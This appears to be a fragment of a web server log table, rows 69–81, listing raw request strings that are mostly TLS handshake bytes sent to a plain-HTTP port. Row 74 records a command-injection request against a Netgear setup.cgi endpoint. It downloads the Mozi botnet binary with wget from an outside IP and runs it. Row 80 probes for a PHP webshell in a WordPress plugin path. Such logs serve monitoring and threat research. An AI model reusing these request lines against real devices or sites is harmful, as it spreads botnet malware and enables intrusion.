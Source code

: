 |  69 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xCF\xF2\x14                                                                                                                                                                                                                                                                                                                                                               |
|  70 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x00I\xDCC*\xF4\xB3\x1Am\xEB\x9D\x10\xD3\xF7\x9A{\xF9\xEE&E\xFC\xC3\xB7\x92\x0F-\xD9A\x17\x1A\xE6O\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                       |
|  71 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03Z\xE5\xF2\xE4}{j\x91\xAF~\xA5p\x8Ac\xB5\x1B\xF0y\x16\xC7K\xDD`\x5C\x92\xD3\xD7\xB3R\x98\x07\xB1 \xAC\x16\xB2\xC5.\x03\xFA\x19\xA8Jl\xE7\x04\xD0\x22{\xA9\xC7\x0FWiY\x16\x04\xC7M\x09\xCC\x9B\xA7^\x02\x00&\xCC\xA8\xCC\xA9\xC0/\xC00\xC0+\xC0,\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                           |
|  72 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xDF(\xC1d0\x87R\x83x_\xE0\x9E\xB8lk;\xA0\xE9H\x9D\x079=\x12<\x0F\xAFV\x1C\xDA\xC5\x9F \xA4q@!\xF8;\x90\xF9m\xB0\xEF\xBEXe\x0B\xFB\xF5\xDE\x8E\xC1\x91CAs\xA0/'\xAD\xC8F\xB8\x97\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                        |
|  73 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03\xCA\xC1=-\x98\xC1\x13\xDE]\xC2\xB2\x90~C\x06\x82\x98\x1D\xDF\xE9\x90,\xBC\x88\xE8\xFF\x86\xD2r\x90mH\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                   |
|  74 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://110.183.18.82:42245/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                     |
|  75 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xE2\x8F\xFC\xFEg*\xFE[,,\x87\xF4\xC5cC;\xB1n5\xE42*\x87\x1C\xEE\xB6\x89i\x06i\xCB\x1A\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                   |
|  76 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03A\xB0\x80u\xE7C\xFF\x0C-\xD2\x8B\xF4\xFC}S-\x84@\xDFwT5\xEFg\xFED\xA2\xE5\xE7|\x81t\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                      |
|  77 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03R2V\xA5\xC3\x9B\xE9\x94\x8Cz\x8A\xE2\x11\xF3Y\x85\x9B\xCBk\xA5H\xC9\xC9o\xC6(\x9A\xE1R\xDFr7\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                             |
|  78 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03Y\xD9\xFA\xC3\xA8\xC5t(wQ\xB8$\x84\x88\xB2\x17\xBB\x15\xC0\xC9\xD4f\xB5\xF8bm\xC2\xBB6\xB2,u\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                             |
|  79 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x030\xAEh\xCF\xCB\xB6m&\xED\x9D-\xEF\xA2\xE2p\x02\xF1\xA0-\x8F\xD0<B\x8D~\x96\xEF\xD9\x00\x1B8\x06\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                          |
|  80 |                     1 | GET /wp-content/plugins/wp-file-upload/xl2024.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
|  81 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x89\xD9x\x94u\xEEA\x14>kq7\xBA`6\x9D\x98\xCB\xA7\xD0\x1B\x90\xADh\xF3\xE8\xB0@o\xE6                                                                                                                                                                                                                                                                                       |
